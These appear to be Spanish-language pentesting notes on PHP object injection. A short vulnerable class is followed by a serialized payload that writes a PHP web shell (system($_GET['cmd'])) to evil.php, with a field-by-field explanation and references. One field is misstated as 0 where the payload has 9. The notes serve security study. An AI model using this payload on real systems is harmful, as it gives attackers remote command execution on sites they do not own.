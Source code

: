 # Server-Side Template Injection



# PHP Object Injection

## Código

```php
class foobarzoo {
    public $csv="entries.csv";
    public $line=null;
    
    function __destruct() {
        file_put_contents($this->csv,$this->line);
    }
}
```

**Payload de explotación**

`data=O:9:"foobarzoo":2:{s:3:"csv";s:8:"evil.php";s:4:"line";s:28:"<?php system($_GET["cmd"])?>";}`

Donde en `O:9:"foobarzoo":2:`:
- `O` &rarr; tipo de dato (objeto).
- `0` &rarr; longitud dato.
- `2` &rarr; cantidad de propiedades.

Donde en `s:3:"csv";s:8:"evil.php"`:
- `s` &rarr; tipo de dato (string).
- `3` &rarr; longitud dato.
- `csv` &rarr; nombre de propiedad.
- `evil.php` &rarr; valor de propiedad.


## Referencias

- https://insomniasec.com/downloads/publications/Practical%20PHP%20Object%20Injection.pdf
- https://owasp.org/www-community/vulnerabilities/PHP_Object_Injection
- https://nitesculucian.github.io/2018/10/05/php-object-injection-cheat-sheet/
- https://security.stackexchange.com/questions/176263/why-does-this-php-object-injection-exploit-work
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/628481cd4d9c9f7db980a6a92c446d22c26a4aad/Insecure%20Deserialization/PHP.md

# SQL

## sqlmap

https://teckk2.github.io/web-pentesting/2018/02/07/SQL-Injection-(Login-Form-User).html